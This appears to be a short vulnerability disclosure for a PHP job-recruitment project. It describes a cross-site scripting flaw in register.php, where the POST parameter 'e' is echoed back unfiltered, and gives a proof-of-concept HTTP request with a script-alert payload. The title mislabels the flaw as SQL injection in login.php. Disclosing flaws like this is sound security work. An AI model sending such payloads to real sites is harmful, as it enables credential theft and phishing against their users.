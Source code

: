 # Job-recruitment-in-php has sql injection vulnerability in login.php  

## supplier
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
register.php
## describe
There is an  Cross Site Scripting vulnerability in Job_Recruitment systtem in register.php,  Control parameter: **$e**

A malicious attacker can use this vulnerability to obtain administrator login credentials or phishing websites

![image-20241111084241861](https://github.com/user-attachments/assets/c02f3773-2a88-47d4-a0db-ea2714f9f1eb)

## code analysis

The **$_POST['e']** parameters of the register.php are not filtered and concatenated into the $userstring1,and echo $userstring1 value is not filtered.

![image-20241111084553469](https://github.com/user-attachments/assets/67da9d26-968d-4100-a7ed-468088eda82f)

## POC

```
POST /register.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Contnet-Length: 10
Connection: close
Cookie: PHPSESSID=apdbj581m83cio8cj275e494dr
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 42

e=<script>alert(1);</script>&p1=123456
```

![image-20241111084811671](https://github.com/user-attachments/assets/8faa8708-c7a4-47c2-b691-286ba5b5336a)

**Result**

it can excute the Cross Site Scripting : alert(1);

![image-20241111084857613](https://github.com/user-attachments/assets/24681cd7-86d1-45ef-881a-ef612b17225b)

**Discover**

西安电子科技大学 李腾，谢亚轩